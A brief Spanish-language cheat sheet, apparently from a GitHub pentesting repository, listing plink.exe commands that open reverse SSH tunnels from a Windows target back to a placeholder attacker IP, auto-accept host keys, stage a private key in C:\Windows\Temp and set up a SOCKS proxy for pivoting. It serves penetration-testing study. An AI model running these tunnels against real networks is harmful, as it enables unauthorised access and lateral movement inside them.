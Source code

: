# Plink Cheat Sheet

#### Autenticarse con un Password
```
echo 'y' | .\plink.exe -ssh -l <USERNAME> -pw <PASSWORD> -batch -N -R 127.0.0.1:<ATTACK-PORT>:127.0.0.1:<TARGET-IP> <ATTACK-IP>
```

#### Usando la llave privada
```
echo 'y' | .\plink.exe -ssh -l <USERNAME> -i C:\Windows\Temp\key.ppk -batch -N -R 127.0.0.1:<ATTACK-PORT>:127.0.0.1:<TARGET-IP> <ATTACK-IP>
```

##### Generar la lleve
```
ssh-keygen
puttygen <PRIVATE-KEY> -o key.ppk
```

#### Reverse Connection
```
cmd.exe /c echo y | .\plink.exe -R <ATTACK-PORT>:<TARGET-IP>:<TARGET-PORT> <USERNAME>@<ATTACK-IP> -i key.ppk -N
```

#### Pivoting SSH
```
plink.exe -ssh -D 9050 <USER-SSH>@<IP-PRIMER-EQUIPO-LINUX>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)